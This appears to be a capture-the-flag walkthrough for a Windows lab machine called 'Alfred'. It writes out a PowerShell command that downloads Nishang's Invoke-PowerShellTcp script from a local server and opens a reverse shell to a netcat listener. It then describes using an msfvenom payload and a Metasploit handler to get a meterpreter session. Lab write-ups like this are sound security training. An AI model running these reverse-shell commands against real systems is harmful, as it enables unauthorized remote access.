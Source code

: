 We will make use of the [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) provided in the exerise. We first set up a web server on port 9999:

<center>

![d135c1b5422b75eb6d5b67c8c0f4a092.png](/Alfred/_resources/d135c1b5422b75eb6d5b67c8c0f4a092-1.png)

</center>

Set up a netcat listener on a different port with ``nc -lvnp 8888`` then execute the following command

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://LOCAL_IP:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 8888
```

using the feature we found in the enumeration phase. Our netcat listener will catch the reverse shell, giving us initial access to the machine.

<center>

![1572bfd20feeccdf3a2075f2160176fe.png](/Alfred/_resources/1572bfd20feeccdf3a2075f2160176fe-1.png)

</center>

Digging around, we eventually find the user.txt file in ``C:\Users\bruce\Desktop``.

<center>

![9ca6197a960a87ec9973d760e8b3c825.png](/Alfred/_resources/9ca6197a960a87ec9973d760e8b3c825-1.png)

</center>

Using ``type user.txt`` gives us our flag.

As part of Task 2, we are asked to switch to a meterpreter shell in order to facilitate easier privilege escalation. We generate an x86-64 reverse shell using msfvenom:

<center>

![00cf123b41d92301f44b5cc4ab6244ba.png](/Alfred/_resources/00cf123b41d92301f44b5cc4ab6244ba-1.png)

</center>

Note that this gives us the answer to the only question in Task 2. We download the .exe file on the target machine using the same technique used in Task 1. Now set up a handler in Metasploit with ``use exploit/multi/handler`` with the following options:

<center>

![e18242f0bff037e0f026b24a82b01662.png](/Alfred/_resources/e18242f0bff037e0f026b24a82b01662-1.png)

</center>

Now ``run``  to start the reverse TCP handler. On our target machine, we navigate to the directory containing our msfvenom payload and execute  ``Start-Process task2shell.exe`` . This gives us a meterpreter session:

<center>

![aeab9f9383a0bda9bdecac00b6f03c87.png](/Alfred/_resources/aeab9f9383a0bda9bdecac00b6f03c87-1.png)

</center>

(Note: The target IP is a bit different here, as I had to reset the machine.)